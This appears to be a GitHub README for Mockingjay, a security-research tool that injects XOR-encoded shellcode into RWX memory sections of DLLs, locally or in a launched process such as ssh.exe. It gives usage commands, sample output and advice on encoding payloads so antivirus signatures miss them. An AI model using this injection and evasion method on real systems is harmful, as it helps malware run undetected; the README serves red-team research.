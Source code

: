 # Mockingjay
Tests and implementation of Mockingjay technique

The code was created for security researchers to use for exploration and tests of this techinque for their own purposes.

Original authors of techinque and further details can be found here:

[https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution]

# shellcode and code execution
Shellcode should be placed in funx32.h or funx64.h, and the key in key.h within the same folder as the c file of either mockingjay-local or mockingjay-remote.

The shellcode is expected to be simply XOR'd. This is just to prevent static AV signatures from flagging and remove the code. 

Default key is "pizza".

Default shellcode is msf's windows/exec or windows/x64/exec, CMD=calc.exe

nop.h in both mockingjay folders is simply a 2048 B nopsled. 

Both mocking-local and mockingjay-remote utilize this in order to not have to be exact on where the user shellcode lands in the RWX space. 

In my tests with mockingjay-remote, this allowed me to expand shellcode execution to the 32-bit version of ssh.exe that came packaged with my VS2019 install.

To compile, simply load into VS 2019+ and "Build Solution"

Use of this project, compiled or uncompiled code, is AS IS and carries no warranty and I am not liable for damages occured,
  as this application is provided for educational and development purposes.

USE AT YOU OWN RISK!

# Mockingjay-local
Uses a user specified DLL to load, locate RWX space, write shellcode into said space in memory, and final execute such.

Based off the first technique in the whitepaper above, but I did not implement Hell's Gate-left as an exercise for the reader :-) 

USAGE: > mockingjay-local (path to DLL)

   ex. > mockingjay-local .\VS2022-binaries\msys-2.0.dll
```
.\x64\Debug\mockingjay-local.exe .\VS2022-binaries\msys-2.0.dll
[!] Using 64-bit payload
[!] Size of key: 5
[!] Shc decrypted 277 bytes!
Section Name: /4
Virtual Size: 0x3890
Virtual Address: 0x1EC000
Size of Raw Data: 0x3A00
Characteristics: 0xE0000020
---------------------------
[!] RWX Section Addr calculated as:        21022c000
[!] Executing shellcode
```
![image](https://github.com/khr0x40sh/Mockingjay/assets/6656699/56c22858-b369-4818-aa37-2391a35c7748)


# Mockingjay-remote
Uses a user specified binary in which uses a DLL with RWX space, and a hexidecimal representation of the address of where to begin writing the shellcode in the RWX space.

Based off the second technique in the whitepaper. The example provided below should pretty reliably pop calc.

USAGE: > mockingjay-remote (path to EXE args) (addr)

   ex: > mockingjay-remote ".\VS2022-binaries\ssh.exe decoy@decoy.com" 0x21022D120

```
.\x64\Debug\mockingjay-remote.exe ".\VS2022-binaries\ssh.exe decoy@decoy.com" 0x21022D120
       21022d120
[!] msys-2.0.dll found!
[+] Proc launched with PID of: 4816
[!] Using 64-bit payload
[!] Key length detected as 5
[+] RWX space in DLL overwritten successfully!
[!] Have some cheezburgers...
```
![image](https://github.com/khr0x40sh/Mockingjay/assets/6656699/26653633-47e7-4528-8489-ead244261112)


# RWXFinder
Uses a user supplied folder path to which it will hunt for RWX space in a DLL. 

Based off this repo: [https://github.com/pwnsauc3/RWXfinder] and data from the whitepaper.

USAGE: > mrwxfinder.exe (folder path)

   ex: > rwxfinder.exe "C:\\Program Files (x86)\\"

